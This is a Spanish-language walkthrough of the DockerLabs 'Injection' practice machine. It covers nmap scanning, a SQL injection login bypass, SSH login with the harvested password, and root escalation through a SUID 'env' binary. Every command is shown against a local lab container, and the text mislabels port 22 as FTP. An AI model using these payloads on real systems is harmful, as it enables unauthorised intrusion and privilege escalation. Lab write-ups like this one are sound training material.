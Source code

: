 # Write Up Injection

**Dificultad:** Super fáil<br>
**Enlace a dockerlabs:** https://dockerlabs.es/

## Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
```
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta injection, nos metemos dentro y usamos la utilidad *mkt* que nos crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Reconocimiento
Lo primero que realizamos es un reconocimiento general con nmap sobre la máquina víctima, para obtener los puertos abiertos. 
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Una vez obtenemos los puertos abiertos, realizamos un escaneo mas exhaustivo mediante scripts de reconocimiento para obtener los servicios de cada puerto y la versión en la que corren

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

De esta manera descubrimos que el servicio que está corriendo en el puerto 22 (puerto FTP) es el OpenSSH 8.9p1 y en el puerto 80 (puerto http) está corriendo un servicio web Apache httpd 2.4.52.

## Explotación
Como hemos visto que hay un servicio web corriendo en la máquina víctima procedemos a ver la web, añadiendo el dominio (en este caso no tiene y simplemente pondremos el nombre de la máquina) al archivo */etc/hosts* de nuestra máquina virtual (es el archivo de configuración de DNS local).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   kali

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Una vez configurado el archivo */etc/hosts* procedemos a acceder a la página web, y vemos que es un formulario de login.

![Web](../.sources/injection-login.png)

Probamos a introducir los parámetros básicos para comprobar si hay inyección SQL. Para ello hay que introducir la cadena *admin' OR '1' = '1'; --* en el apartado de usuario y cualquier cosa en password (en mi caso he puesto *hacked!*) para que deje enviar el formulario, y si todo va bien, podremos entrar siendo los administradores (si no va con el usuario admin se puede ir cambiando a root, administrator, y cosas parecidas, pero sin perder mucho el tiempo).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

Y bingo! Estamos dentro y obtenemos las credenciales de el usuario Dylan

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Al haber obtenido esas credenciales, podemos probar a acceder mediante el puerto ssh también abierto.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

Y ya tenemos acceso a la máquina!

## Escalada de privilegios

Para poder utilizar la consola de una manera mas cómoda podemos hacer el siguiente tratamiento de la terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Ahora que tenemos una terminal buscamos archivos (a poder ser binarios) con usuario root y el flag *setuid* activo y encontramos los siguientes:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

Así que usamos el comando env de la siguiente forma y elevamos privilegios a root

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```
